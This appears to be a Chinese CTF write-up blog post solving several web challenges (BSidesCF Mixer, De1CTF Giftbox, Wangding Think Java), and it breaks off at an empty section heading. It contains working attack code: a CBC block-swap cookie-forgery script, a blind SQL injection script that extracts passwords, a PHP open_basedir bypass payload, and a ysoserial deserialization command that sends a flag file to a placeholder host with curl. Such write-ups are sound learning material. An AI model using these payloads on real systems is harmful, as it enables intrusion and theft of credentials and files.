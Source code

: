 前言: 今天是废物的一天，元旦三天还是要玩一下，不要卷了。

## 0x01 [BSidesCF 2019]Mixer

密码web 好题，希望后面可以来复现一波

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

url = "https://mixer-f3834380.challenges.bsidessf.net"
action="""?action=login&first_name=A1.00000000000000&last_name=paww"""
r = requests.get(url+action, verify=False, allow_redirects=False)
for c in r.cookies:
    print(c.name, c.value)
    if c.name == "user":
        c.value = c.value[:-32] + c.value[32:64] + c.value[-32:]

resp = requests.get(url, cookies = r.cookies, verify=False, allow_redirects=False)

print resp.text
```

这个题目首先得了解一下CBC加密的方式

分块加密，也就是16byte为一块。也就是exp中的payload要改成

```
{"first_name":"A
1.00000000000000
","last_name":"x
xxx","is_admin":
0}
```

现在就是分别对每一块进行加密，如果我们现在把第二块换到第五块的位置，那么就变成了

```
{"first_name":"A
1.00000000000000
","last_name":"x
xxx","is_admin":
1.00000000000000
0}
```

现在就满足条件了。这也是上面的exp需要表达的意识。

## 0x02 [De1CTF 2019]Giftbox

直接拿着赵总的wp学爆 好吧。conda的python不支持pyopt我也不知道为什么，大家别踩坑就好了。https://www.zhaoj.in/read-6170.html#0x03Giftbox

:recycle:知识点

- sql注入
- php语言特性

:a:解题1 - sql注入

![image-20220103091835125](https://img.dem0dem0.top/images/image-20220103091835125.png)

打开题目是一个zsh的界面。我们发送一个请求之后开始抓包。

![image-20220103091945572](https://img.dem0dem0.top/images/image-20220103091945572.png)

我还以为直接就可以拿到shell了，但是仔细观察请求，发现了一个参数`totp` 吓得我赶忙去百度。

`TOTP算法(Time-based One-time Password algorithm)是一种从共享密钥和当前时间计算一次性密码的算法`

可以看到这个参数是加密的(废物文学，但是我们必须找到这个参数是从哪里来的，不然包都不能重放。(去找js文件。`new TOTP("GAXG24JTMZXGKZBU",8).genOTP()`所以这个参数我们也就可以自己生成了。

```
totp = pyotp.TOTP('GAXG24JTMZXGKZBU', 8, interval=5)
totp.now()
```

这样就可以输出获得正确的参数。我们继续收集信息。

```python
cd ls cat hey hi hello help clear exit ~ 
```

这是同一个js文件的信息。

![image-20220103092646426](https://img.dem0dem0.top/images/image-20220103092646426.png)

在测试的发现了还有这几条指令，我们发现这里有一个登录点，但是我们不知道账号密码，于是我们先寻找无果。于是经`典sql注入?`

开始fuzz。

![image-20220103093007153](https://img.dem0dem0.top/images/image-20220103093007153.png)

猜测一下后端的语句难道是

```php
$user= select * from users where username=$username;

if($user){
}
else{
}
```

很明显可以开始注入了。

```python
import time
import requests
import pyotp
totp = pyotp.TOTP('GAXG24JTMZXGKZBU', 8, interval=5)
session = requests.session()
url = ""
def sql_injection(mid):
    '''
    :param mid: 输入payload
    :return: 返回是否正确 判断前后夹击的范围
    '''
    time.sleep(0.5)
    payload = f"login admin'/**/and/**/({mid})/**/and/**/'1'='1 123"
    # print(payload)
    a = session.get(url + '/shell.php',
        params={'a':payload,'totp':totp.now()}).text
    # print(a)
    if('password' in a ):
        return  True
    else:
        return  False
def gen_payload():
    '''
    生成payload
    :return:
    '''
    db_payload ="select/**/concat(password)/**/from/**/users"
    res=''
    for x in range(1,64):
        payload = f"ascii(substr(({db_payload}),{x},1))"
        res += chr(half(payload))
        print(res)
    print("[+]" + res)
def half(payload):
    '''
    二分法主体部分
    :param payload:
    :return:
    '''
    low = 0
    high = 126
    while low <= high:
        mid = (low + high) / 2
        mid_num_payload="%s/**/>/**/%d"%(payload,mid)
        if(sql_injection(mid_num_payload)):
            low = mid + 1
        else:
            high = mid -1
    mid_num = int((low + high + 1) / 2)
    return mid_num


def main():
    gen_payload()


if __name__ == '__main__':
    main()
```

buu的记得要设置延时，不然会被你ipban了。

![image-20220103103439593](https://img.dem0dem0.top/images/image-20220103103439593.png)

后面这个命令，我们看到了双引号，所以{$a()}.懂得都懂。

最后绕过open_base

```
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```

payload拆分一下就可以了。

## 0x03[网鼎杯 2020 朱雀组]Think Java

:a:jdbc注入

第一步这里的注入是要分成两步的。

![image-20220103110637881](https://img.dem0dem0.top/images/image-20220103110637881.png)

![image-20220103110645071](https://img.dem0dem0.top/images/image-20220103110645071.png)

你注入的语句不能影响他正常的连接的同时还要能够注入数据。

```
myapp?a=1' union select pwd from user; #
```

这也是他们说的无用字符不生效。

```
admin@Rrrr_ctf_asde
```

:b:java反序列化

![image-20220103110834039](https://img.dem0dem0.top/images/image-20220103110834039.png)

登录成功之后不难发现，一串数据。

盲猜这个接口。

![image-20220103110942135](https://img.dem0dem0.top/images/image-20220103110942135.png)

对数据进行了反序列化。然后我们应该对这个数据

https://www.cnblogs.com/h3zh1/p/12914439.html

然后用`ysoserial-master.jar`小何yyds

```
ysoserial用法:以ROME和URLDNS举例
即用ROME(我现在的认知就是他每一种都有不同的作用，比如rome可以命令执行，URLDNS可以进行dns回显)。
```

yyds!

```
java -jar ysoserial-master.jar ROME "curl http://xxx -d @/flag" > dem0.bin
```

第一次使用yso工具解题，做到拿到密码就不会的web废物解决了。

## 0x04 string.strip_tags

`string.strip_tags`可以把php标签进行删除掉。

arjun 爆破参数。

## 0x05 

